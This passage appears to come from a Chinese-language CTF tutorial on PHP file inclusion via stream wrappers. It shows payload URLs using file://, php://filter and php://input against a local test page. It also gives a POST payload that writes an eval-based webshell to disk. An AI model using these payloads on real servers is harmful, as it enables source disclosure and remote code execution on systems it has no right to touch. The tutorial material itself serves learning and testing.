 使用方法：

file://[文件的绝对路径和文件名]

http://127.0.0.1/cmd.php?file=file://D:/soft/phpstudy/www/phpcode.txt

![22](D:\存储\文章\文件包含与伪协议\image\9.png)【php://协议】

条件：

不需要开启allow_url_fopen，仅php://input、 php://stdin、 php://memory 和 php://temp 需要开启allow_url_include。

php:// 访问各个输入/输出流（I/O streams），在CTF中经常使用的是php://filter和php://input，**php://filter用于读取源码，php://input用于执行php代码。**

php.ini:
php://filter在双off的情况下可以正常使用

allow_url_fopen:off/on

allow_url_url:off/on

![4](D:\存储\文章\文件包含与伪协议\image\4.png)

php://filter测试现象：

http://127.0.0.1/cmd.php?file=php://filter/read=convert.base64-encode/resource=./cmd.php



![3](D:\存储\文章\文件包含与伪协议\image\3.png)

**php://input** 可以访问请求的原始数据的只读流, 将post请求中的数据作为PHP代码执行。

**PHP.ini：**

allow_url_fopen ：off/on

allow_url_include：on

**测试现象：**

http://127.0.0.1/cmd.php?file=php://input

[POST DATA] <?php phpinfo()?>

也可以POST如下内容生成一句话：<?php fputs(fopen("shell.php","w"),'<?php eval($_POST["cmd"];);?>');?>

![5](D:\存储\文章\文件包含与伪协议\image\5.png)

**【zip://, bzip2://, zlib://协议】**

**PHP.ini：**

zip://, bzip2://, zlib://协议在双off的情况下也可以正常使用；

allow_url_fopen ：off/on

allow_url_include：off/on

zip://, bzip2://, zlib:// 均属于压缩流，可以访问压缩文件中的子文件，更重要的是不需要指定后缀名。

**【zip://协议】**
